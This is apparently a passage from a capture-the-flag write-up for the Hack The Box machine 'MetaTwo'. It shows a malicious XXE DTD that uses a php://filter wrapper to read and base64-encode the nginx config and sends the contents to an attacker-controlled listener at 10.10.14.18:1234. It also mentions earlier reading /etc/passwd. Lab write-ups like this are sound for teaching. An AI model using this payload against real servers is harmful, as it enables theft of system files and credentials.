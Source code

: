 <figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Cyberchef will help us decode this output and confirm that we have the `/etc/passwd` file.

However, we need some solid credentials to continue the box. A good starting point is `/etc/nginx/sites-enabled/default` . This will let us see the nginx server config and the directory listing for the wordpress configuration files.

```
┌──(kali㉿kali)-[~/htb/machines/metatwo]
└─$ cat jsquared.dtd 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/nginx/sites-enabled/default">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.18:1234/?p=%file;'>" >
```
